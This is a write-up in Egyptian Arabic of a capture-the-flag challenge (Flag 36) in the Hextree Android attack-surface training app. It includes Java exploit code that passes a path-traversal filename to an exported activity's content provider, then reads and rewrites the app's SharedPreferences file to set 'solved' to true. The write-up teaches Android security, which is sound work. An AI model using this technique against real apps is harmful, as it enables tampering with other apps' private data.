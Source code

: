 ### Flag 36

#### تحليل الكود

```java
if (Flag36Preferences.getBoolean("solved", false)) {
            this.f.addTag(Flag36Preferences.class);
            success(this);
        } else {
            Log.i("Flag36", "not solved");
        }
```

لو الـ shared preferences اسمها `Flag36Preferences` ولو عندها قيمة اسمها `solved` محطوطة على `true` نجيب الـ flag بتاعنا بس إيه هو الـ shared preference ده؟

> [!info] الـ `SharedPreferences` هو object بيشاور على ملف فيه key-value pairs (مفتاح او علامه و القيمة البتدل عليها) وبيدي methods بسيطة عشان نقرأ ونكتب فيهم. كل ملف `SharedPreferences` بيتعامل معاه الـ framework ونقدر نخليه private أو  اي حد يستخدمة shared . و بيتحفظ بصيغة  xml 

... ماذا بعد؟

#### الحل

في flag35 مش بس عندنا permission للقراءة لا وكمان للكتابة، وبما إن الـ provider ده بيستخدم عنوان root نقدر نروح لمكان الـ shared preference ده ونفتح ونعدل الملف وبعدين لازم نقفل الـ app ونفتحه تاني عشان التغييرات تبان

```java
Intent intent = new Intent();  
intent.putExtra("filename","../shared_prefs/Flag36Preferences.xml"); // لو عايز secret ماتستخدمهوش  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
startActivityForResult(intent,2);

if (requestCode == 2) {  
  
    Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        StringBuilder stringBuilder = new StringBuilder();  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line;  
  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
            if (line.contains("false")) {  
                Log.d("File", "[*] /* قوانين جديدة يا صاحبي *\\");  
                line = line.replace("false", "true");  
                Log.d("File", "[*]" + line);  
            }  
            stringBuilder.append(line).append("\n");  
        }  
        reader.close();  
  
        // كتابة المحتوى المعدل في الملف تاني  
        OutputStream outputStream = getContentResolver().openOutputStream(data.getData());  
        outputStream.write(stringBuilder.toString().getBytes());  
        outputStream.close();    
  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
```